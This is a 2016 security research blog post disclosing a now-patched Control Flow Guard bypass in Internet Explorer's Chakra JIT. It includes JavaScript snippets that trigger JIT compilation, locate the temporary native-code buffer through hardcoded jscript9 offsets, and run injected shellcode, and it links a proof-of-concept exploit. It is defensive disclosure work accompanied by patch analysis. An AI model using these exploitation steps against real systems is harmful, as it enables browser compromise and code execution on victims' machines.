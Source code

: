 ```yaml
---
layout: post
title: "Chakra JIT CFG Bypass"
description: As promised in our previous blog post, we are going to take a look at a method to bypass Microsoft's Control Flow Guard (CFG) when attacking Internet Explorer and Edge browsers. Our previous proof-of-concept exploit worked by ovewriting the function pointer of an object. However, with CFG in place, we cannot simply do that without aborting. We will assume that the adversay has the read-write memory primitive.
headline:
modified: 2016-12-14
category: research
imagefeature:
mathjax:
chart:
comments: true
featured: true
---
```


## Introduction

As promised in our [previous blog post][previous-post], we are going to take a look at a method to bypass Microsoft's Control Flow Guard (CFG) when attacking Internet Explorer and Edge browsers. Our previous proof-of-concept exploit worked by ovewriting the function pointer of an object. However, with CFG in place, we cannot simply do that without aborting. We will assume that the adversay has the read-write memory primitive.

__Note__: This post was originally planned to be published back in July, but we decided to submit it for Microsoft's Mitigation Bypass and Bounty Defense Program first. The submission was accepted, and Microsoft asked us to hold off on releasing the details about the technique until it is fixed. Now that it has been a couple months since the patch ([MS16-119][ms16-119]) was deployed, we finally release the details here.


## Background

[Control Flow Guard][cfg] is a fairly recent mitigation on Windows that was added by Microsoft. It is designed to be performant while providing an extra layer of protection by validating the targets of the indirect call/jmps. There are many other references[[1]][trend][[2]][core-sec][[3]][mj] that discuss about CFG in detail, so we won't dive in too deeply here.

<img src="../images/2016-12-14/cfg.png"  style="display: block; margin: auto; border: 1px solid #ccc">

While the mitigation makes it harder to perform a control-flow hijacking type of attack, the CFG is inherently not perfect. The technology only protects indirect calls and jumps by design, and thus does not protect the stack (i.e. ROP is still possible). Also, it is worth noting that this is a compile-time instrumentation which requires the source code to be recompiled. Even though many of Microsoft's binaries are now protected with CFG, there are a lot more other programs that aren't compiled with CFG mitigation.


## Chakra JIT

The Chakra JIT is responsible for generating optimized JIT'ed code for functions and loops that are invoked many times. This process is split into multiple stages, with the _Full JIT Compiler_ and _Garbage Collection_ stages occuring in a background thread. An explaination of the pipeline and helpful diagrams can be found on [MSDN][ie11-jit].

<img src="../images/2016-12-14/jit_pipeline.png"  style="display: block; margin: auto; width: 80%">
<center style="font-size: 0.9em; margin-top:0; color: #666">JIT Pipeline (from MSDN)</center><br>

Our focus is going to be on the _Full JIT Compiler_ which is responsible for ingesting the bytecode and outputting native code. The high-level process for an individual function or loop can be found in [Func::Codegen()][chakra-func]. First, an intermediate representation (IR) of the bytecode is generated. The IR will be transformed several times: optimizations, register allocation, prolog and epilog, etc. Once the IR is ready, it will be encoded into native code by [Encoder::Encode()][chakra-encoder].

```cpp
// https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Encoder.cpp#L15

void
Encoder::Encode()
{
    NoRecoverMemoryArenaAllocator localAlloc(_u("BE-Encoder"), m_func->m_alloc->GetPageAllocator(), Js::Throw::OutOfMemory);
    m_tempAlloc = &localAlloc;
...
    m_encodeBuffer = AnewArray(m_tempAlloc, BYTE, m_encodeBufferSize);
...
}
```

The `Encoder` performs the nitty-gritty process of generating the actual native code. First, it will allocate **m_encodeBuffer** which will temporarily contain the native code. After all of the native instructions have been emitted into **m_encodeBuffer**, the `Encoder` applies any relocations to the buffer, copies it to _read-only-execute_ memory, and sets it as a valid call target for CFG. At this point, the temporary buffer is no longer used and can be freed.

```cpp
// https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Encoder.cpp#L294

...
    m_encoderMD.ApplyRelocs((size_t) workItem->GetCodeAddress());

    workItem->RecordNativeCode(m_func, m_encodeBuffer);

    m_func->GetScriptContext()->GetThreadContext()->SetValidCallTargetForCFG((PVOID) workItem->GetCodeAddress());
...
```

Note that once the code has been copied to the executable memory, it cannot be easily modified. But, while the `Encoder` was generating the native code in the temporary buffer, there was nothing to prevent an adversary from using a write memory primitive to change the code in the temporary buffer. Since the JIT process is in a background thread, the javascript threads are still running normally. The tricky part for the adversary is finding the temporary buffer and modifying it in the short time that the `Encoder` is running.


## Bypassing CFG

Now that we have a basic method for modifying some JIT code, let's put it into action to bypass CFG.

Our process will have three parts:

1. Trigger the JIT.
2. Find the temporary native code buffer.
3. Modify the contents of the buffer.

There is also an implicit last step of executing the JIT'ed code.

### Trigger JIT

The first step, and the easiest, is to trigger the JIT to start encoding a function. In order to make the second step easier, we want the function's code to be large so that we have enough time to find the temporary buffer in memory. The exact instructions in the function do not matter too much.

```javascript
var code = "var i = 10; var j = 1; ";
for (var i = 0; i < 6000; i++)
{
    code += "i *= i + j.toString();";
}
code += "return i.toString();"

f = Function(code);
for (var i = 0; i < 1000; i++)
{
    // trigger jit
    f.call();
}
```
### Find native code buffer

Once the background thread enters _Encoder::Encode()_, we need to quickly find the temporary native code buffer. One way of finding the buffer is to find the page allocator that was used to allocate it and look through the allocated segments. We noticed that we could find a reference to the page allocator by finding the `ThreadContext` and then the `BackgroundJobProcessor` for the background thread.

```javascript
// find the ThreadContext using ThreadContext::globalListLast
var tctx = readN(jscript9Base + 0x00349034, 4);
// BackgroundJobProcessor
var bgjob = readN(tctx + 0x3b0, 4);
// PageAllocator
var pgalloc = bgjob + 0x1c;
```

The `PageAllocator` has several lists of allocated segments. Since the function that is being JIT'ed is large, the temporary native code buffer will be large as well. We can easily find the segment by looking at the _largeSegments_ list. We can use a while-loop to wait until the _largeSegments_ list is non-empty and then proceed with the last step.

```javascript
while (true) {
    // read largeSegments list
    var largeseg = readN(pgalloc + 0x24, 4);
    // check if the list was empty
    if (largeseg == pgalloc + 0x24) continue;
    // get the address of the actual data
    var page = readN(largeseg + 8 + 8, 4);
    if (page == 0) continue;
    break;
}
```

### Modify and run

Now that we have the location of the temporary native code buffer, we can modify its contents in order to inject our shellcode. While this _should_ be as simple as overwriting the contents of the buffer with our shellcode, it gets complicated because we have to avoid overwriting anything that will be changed in the _relocations_ step. Since the function we used to trigger the JIT calls _toString()_ often, we do not have much space for shellcode while avoiding relocations.

While the best option would be to change the function we are JIT'ing, we instead opted to use a first-stage shellcode that simply calls VirtualProtect and jumps to our second-stage shellcode. This first-stage shellcode is very small (only 20 bytes). We fit it into the buffer by emitting a short jump at the beginning of the buffer to the first-stage which is located at some small offset into the buffer. 

Our second-stage shellcode can now be any length, so in our exploit we use a metasploit-generated shellcode that executes _notepad.exe_. In practice, this second-stage would be responsible for bypassing protected mode (sandbox).

The last step of the process, after we have modified the temporary buffer, is to wait until the JIT'ing process is done and execute the modified JIT code. This can be accomplished by calling the target function until your shellcode executes.

```javascript
for (var i = 0; i < 1000; i++)
{
    // call overwritten jit block
    f.call();
}
```


## Exploit

In order to demonstrate the technique, we adapted the [previous code][previous-code] to target Internet Explorer 11 on Windows 10. The code to achieve a read-write memory primitive hasn't changed, but instead of overwriting a function pointer which will trigger the CFG, we use JIT code overwrite to execute our shellcode.

<img src="../images/2016-12-14/exploit_success.png" style="display: block; margin: auto; border: 1px solid #ccc">

You can find the final proof-of-concept exploit at [https://github.com/theori-io/jscript9-typedarray-cfg][poc-github].


## Impact

Since the impact of this CFG bypass is limited to situations where the adversary already has a read-write memory primitive, its usefulness may be limited in practice. With that caveat, this bypass has the advantage of being built into the architecture of the Chakra JIT, which means that it may be difficult to patch out and should not be affected by future mitigations such as [Intel's CET][intel-cet].


## Patch

Microsoft has [committed][patch] the changes in ChakraCore in trying to mitigate the CFG bypass we found (along with other CVE patches). The basic idea is to compute the *checksum* as the encoder encodes the instructions, and validate the checksum after copying the entire buffer to the final RX (read/execute-only) buffer. And, only when it's validated the entry point of JIT'ed code as a valid CFG target. The choice of the checksum algorithm here was CRC32.

We appreciate Microsoft's willingness to offer bug bounties for mitigation bypasses and quick response time. We hope that this post will inspire others to continue to research new ways to bypass current mitigations and develop new mitigations.

[patch]: https://github.com/Microsoft/ChakraCore/commit/097edcd2e452e423b5f83b64b47f6bb7f5cd520d#diff-d30731d63f273a741e4944781d64e709
[ms16-119]: https://technet.microsoft.com/library/security/MS16-119
[trend]: http://blog.trendmicro.com/trendlabs-security-intelligence/exploring-control-flow-guard-in-windows-10/
[mj]: http://www.powerofcommunity.net/poc2014/mj0011.pdf
[core-sec]: https://blog.coresecurity.com/2015/03/25/exploiting-cve-2015-0311-part-ii-bypassing-control-flow-guard-on-windows-8-1-update-3/
[previous-post]: http://theori.io/research/jscript9_typed_array
[previous-code]: https://github.com/theori-io/jscript9-typedarray
[poc-github]: https://github.com/theori-io/jscript9-typedarray-cfg
[cfg]: https://msdn.microsoft.com/en-us/library/windows/desktop/mt637065%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396
[ie11-jit]: https://blogs.msdn.microsoft.com/ie/2014/10/09/announcing-key-advances-to-javascript-performance-in-windows-10-technical-preview/
[chakra-encoder]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Encoder.cpp
[chakra-func]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Backend/Func.cpp#L243
[chakra-tc]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Runtime/Base/ThreadContext.h
[chakra-alloc]: https://github.com/Microsoft/ChakraCore/blob/master/lib/Common/Memory/PageAllocator.h
[intel-cet]: https://software.intel.com/sites/default/files/managed/4d/2a/control-flow-enforcement-technology-preview.pdf
